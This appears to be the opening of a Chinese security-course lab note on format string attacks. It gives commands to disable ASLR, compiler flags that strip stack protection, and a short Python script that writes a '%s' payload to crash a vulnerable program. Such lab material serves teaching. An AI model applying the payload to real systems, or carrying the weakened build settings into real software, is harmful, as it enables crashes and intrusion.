 # lab1 格式化字符串攻击



# 0 编译源文件

关闭ASLR设置：

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

开启ASLR设置

```bash
sudo sysctl -w kernel.randomize_va_space=2
```

编译c

```bash
gcc -fno-stack-protector -no-pie -z execstack -m32 源文件名.c -o 可执行文件名
```

- -fno-stack-protector 关闭Stack Guard 保护
- -fstack-protector 开启Stack Guard 保护
- -no-pie 关闭pie
- -z execstack 开启栈可执行
- -z noexecstack 关闭栈可执行
- -m32 32位编译

```bash
gcc -fno-stack-protector -no-pie -z execstack -m32 prog1.c -o prog1
gcc -fno-stack-protector -no-pie -z execstack -m32 prog2.c -o prog2
```



# 1 格式化字符串漏洞

见pdf

# 2 格式化字符串攻击

## 2.1 Crash Program

1.py

```python
#!/usr/bin/python3
# crash the program

payload = "%s%s%s%s%s%s".encode('latin-1')

with open('input', 'wb') as f:
  f.write(payload)
```
